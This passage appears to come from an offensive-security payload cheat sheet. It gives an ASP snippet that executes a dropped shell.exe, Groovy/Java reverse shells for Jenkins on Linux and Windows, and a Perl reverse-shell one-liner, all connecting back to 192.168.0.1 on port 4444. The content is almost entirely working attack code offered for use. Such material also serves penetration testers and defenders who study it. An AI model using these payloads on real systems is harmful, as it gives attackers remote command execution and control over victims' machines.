 Execute a File

```
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c C:\\Windows\\Temp\\shell.exe")
o = cmd.StdOut.Readall()
Response.write(o)
%>

```

## Jenkins / Groovy (Java)

Jenkins / Groovy (Java)

Linux Reverse Shell

```
String host="192.168.0.1";
int port=4444;
String cmd="/bin/sh";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

```

Windows Reverse Shell

```
String host="192.168.0.1";
int port=4444;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

```

## Perl

Perl

Reverse Shell

```
perl -MIO -e 'use Socket;$ip="192.168.0.1";$port=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($port,inet_aton($ip)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

```
